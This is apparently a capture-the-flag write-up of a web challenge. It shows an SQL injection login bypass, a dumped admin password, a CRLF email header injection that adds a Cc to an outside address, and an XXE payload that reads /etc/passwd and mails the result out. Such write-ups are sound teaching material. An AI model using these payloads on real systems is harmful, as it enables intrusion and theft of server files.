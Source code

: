 So first it was really amazing task that make me work hard and try again and again to get something<br />
Our team was working on this task and its a good way to get the job done when you have good web guys<br />
We didnt get the last part which is just 5% of the task but we did well even we dont get the flag before the ctf end<br />
<br />
Its good too to share what we get and why not to share last part we miss <br />

First it was a web login page that <br />

![login](https://user-images.githubusercontent.com/7364615/28275160-5715e578-6b13-11e7-8be3-746bb7dcc705.PNG)

OK here where the challenge start<br />

As always check sql injection is the good way to fast work :D <br />
and as usual it works :D <br />

simple login bypass  ' or 1=1 -- in username do the job <br />

then just start dump database and get some data which was not so interesting for us , not flag in data base 

current DB : task200 <br />
Table : users <br />
user : admin <br />
password : verystrongpassword <br />

and also table posts with static data

anyway lets go far 

when we login we get this page 

![image](https://user-images.githubusercontent.com/7364615/28275423-1083f16c-6b14-11e7-9240-56dd1a0a9b34.png)

here me and my team start think about phpmailer bug , but not work after some test 

then after some check we get that its email header injection that make us able to redirect the email to our account :D 
look amazing new here :D 

this is our payload used : 
POST : subject=Report+from+16-07-2017+12-18%0d%0aCc:email@gmail.com%0d%0a&encoding=UTF-8

![image](https://user-images.githubusercontent.com/7364615/28275535-6a91760c-6b14-11e7-80e9-396f88656232.png)

it was xml file 

![image](https://user-images.githubusercontent.com/7364615/28275635-c5548e44-6b14-11e7-82cd-7fd7aa3e97ca.png)

here look XML External Entity (XXE) 

so all we need to do is to make xxe in subject to get email with some data from the server

it was really bad for us , we make all test but we miss the last part to make this work 

the last payload to get flag is to read /etc/passwd file from the server 

payload : subject=-->%26xxe;test123%0d%0aCc:+email@gmail.com&encoding=UTF-8"%3f><!DOCTYPE+foo+[<!ELEMENT+foo+ANY+><!ENTITY+xxe+SYSTEM+"file%3a///etc/passwd"+>]><report><about><subject><!--

![image](https://user-images.githubusercontent.com/7364615/28275820-5f3df590-6b15-11e7-9a62-8b544b79b853.png)

and the flag was : ctfzone{c5b8865cc6d98898f391c911f4c371a3}
